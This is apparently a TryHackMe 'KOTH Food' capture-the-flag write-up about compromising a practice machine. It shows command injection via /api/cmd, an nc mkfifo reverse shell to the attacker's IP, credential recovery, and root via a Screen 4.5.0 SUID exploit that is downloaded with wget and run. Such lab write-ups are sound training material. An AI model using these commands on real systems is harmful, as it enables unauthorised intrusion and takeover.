 ### Enumerating

First we enumerate with 

```
nmap -p- $ip
nmap -sV -p 22,3306,9999,15065,16109,46969

```

![[Pasted image 20211124135525.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124135525.png)

There is a port for website; 15065 but its maintenance
![[Pasted image 20211124135712.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124135712.png)

Who is Dan? Okay let's just keep note on him for now.
Let's start enumerating with dirsearch.py

![[Pasted image 20211124140243.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124140243.png)

### Reverse Shell - Web

There is a dir to /monitor. When we inspect it we get to observe comments 

![[Pasted image 20211124140148.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124140148.png)

In bash terminal, we can put semicolone ; to execute next command. Let's try to enter our IP and 'whoami'

![[Pasted image 20211124140734.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124140734.png)

Seems like it doesnt allow us to do so, lets try to observe the javacsript.  I'm using sublime to copy and paste the main.js

![[Pasted image 20211124141337.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124141337.png)

But I guess it looks complicated to deobfuscate it; so let's observe how the pinging works. 
![[Pasted image 20211124141916.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124141916.png)

Over here we can see that there is a process called 'cmd' that is running the command 'ping -c 4 10.4.44.74'  and its requesting with POST method to /api/cmd

![[Pasted image 20211124142505.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124142505.png)

I wonder if we can curl through it from our machine directly.
`curl 10.10.71.59/api/cmd -X POST -d "whoami"`

where -d means data that is being send along with POST

![[Pasted image 20211124142814.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124142814.png)

Now let's try to spawn a reverse shell. Go to revshells.com and grab your line quick!

I'm using nc mkfifo and start a listener on my terminal
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.44.74 1234 >/tmp/f`

![[Pasted image 20211124143027.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124143027.png)
(apparently there's a glitch in my terminal .__. )

Since this is a KOTH room, we should try to exploit more ways to infiltrate. Let's try MySQL from the nmap service we saw earlier.

### MySQL

From our Machine, lets try;

`mysql -h 10.10.71.59 -u root -p`

```
show databases;
use users;
show tables;
select * from User;
```

![[Pasted image 20211124144056.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124144056.png)

thm{2f30841ff8d9646845295135adda8332} 

### SSH

Let's try to SSH it	, it seems the password and username is working fine

![[Pasted image 20211124144925.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124144925.png)

Let's try port number 16109. Now since we dont know much about it we can try nc or curl and see what response we would get.

![[Pasted image 20211124145112.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145112.png)

Looks like someone is treating us for lunch
![[Pasted image 20211124145214.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145214.png)

This is fishy, but let's try to stegseek it

![[Pasted image 20211124145301.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145301.png)

Welp boom, we are given this credential

`pasta:pastaisdynamic`

And of course let's try to SSH it again

![[Pasted image 20211124145445.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145445.png)
Yep, we got it.

But so far none can run sudo commands with `sudo -l`

Lets hope on to the last port number which nmap identified it as telnet. Let's try to telnet to the target machine

![[Pasted image 20211124145850.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145850.png)

Found something really interesting, lets run it to CyberChef. It looks like its ROT but not sure what number.
tccr:uwjsasqccywsg

ROT13 is the most common but since it's wrong, I tweak a bit and got it that its ROT12 actually with this credential

`food:givemecookies`

### Privilege Escalation

We can SSH into Food account but unfortunately there are restrictions imposed on user Food. Let's get into other account and try to privesc.

We can try to find any SUID by using this command
`find / -type f -perm 4000 2>/dev/null`

There is an unusual file with SUID permission. We can try to exploit that Screen 4.50. Read more here -> https://www.exploit-db.com/exploits/41154
From our machine, let's do

```
searchsploit screen 4.5
locate linux/local/41154.sh
cp /usr/share/exploitdb/exploits/linux/local/41154.sh .
python3 -m http.server
```

![[Pasted image 20211124151119.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124151119.png)

And over the target machine we would just wget it
`wget http://10.4.44.74:8000/41154.sh`

And execute it.
`./41154.sh`

Now we are root.

![[Pasted image 20211124151143.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124151143.png)

And we can obtain the flag7 in the tryhackme directory also we can get the flag in the /root directory.




